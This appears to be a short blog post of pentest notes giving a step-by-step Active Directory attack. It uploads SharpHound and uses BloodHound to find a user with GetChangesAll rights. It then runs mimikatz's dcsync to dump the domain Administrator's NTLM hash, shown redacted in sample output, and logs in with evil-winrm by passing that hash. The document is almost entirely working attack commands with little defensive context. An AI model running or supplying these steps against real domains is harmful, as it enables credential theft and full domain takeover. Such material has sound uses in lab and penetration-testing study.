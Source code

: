 ```yaml
---
layout: post
title:  "active directory - windows - dcsync getchangesall"
date:   2022-01-01
categories: windows
---
```



## AD - DCSync - GetChangesAll


### Target


```powershell

PS C:\Users\user\Documents> upload /home/kali/privesc/SharpHound.ps1

PS C:\Users\user\Documents> .\SharpHound.ps1

PS C:\Users\user\Documents> Invoke-BloodHound -CollectionMethod All

or 

PS C:\Users\user\Documents> Invoke-BloodHound -CollectionMethod All -Domain DC0.EXAMPLE.LOCAL -ZipFilename dc.zip

```

### Kali


```bash

sudo neo4j console
bloodhound
```

### Bloodhound Enumeration - GetChangesAll

```text


Select the current user -> Node Info -> First Degree Object Control -> GetChangesAll

```

### Back to Target


```powershell

PS C:\Users\user\Documents> upload /home/kali/privesc/mimikatz.exe
PS C:\Users\user\Documents> .\mimikatz.exe "lsadump::dcsync /domain:EXAMPLE.LOCAL /user:Administrator" exit

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 02/07/2020 05:27:04
Object Security ID   : S-1-5-21-<REDACTED>-<REDACTED>-<REDACTED>-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: <NTML HASH VALUE WE WANT>


```

### Evil-Winrm

```powershell

evil-winrm -i 127.0.0.1  -u administrator -H <NTML HASH VALUE WE WANT>

```